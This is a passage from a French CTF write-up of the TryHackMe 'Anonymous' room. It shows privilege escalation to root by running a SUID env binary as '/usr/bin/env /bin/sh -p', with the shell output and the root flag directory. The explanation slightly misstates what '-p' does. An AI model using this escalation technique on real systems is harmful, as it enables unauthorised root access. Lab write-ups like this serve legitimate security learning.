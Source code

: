 Regardons sur le site [gtfio](https://gtfobins.github.io/gtfobins/env/) :

![gtfobins_env.png](https://github.com/RawMain121/writeups/blob/main/tryHackMe/room/Anonymous/_resources/gtfobins_env.png)

Nous allons utiliser la commande `/usr/bin/env /bin/sh -p` qui devrait nous permettre de lancer un shell Bash avec les privilèges root .
Le `sh` est un interpréteur de commandes de type Unix/Linux, tandis que le `/usr/bin/env` est une commande qui permet d'exécuter un programme en cherchant d'abord dans les chemins spécifiés dans la variable d'environnement PATH.
Le `-p` permet de lancer le shell avec les privilèges de l'utilisateur root.
Exploitation :

```bash
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
# whoami
root
```

Bien joué, nous voilà root !

```bash
# ls
pics  user.txt
# cd /root/     
# ls
root.txt
```
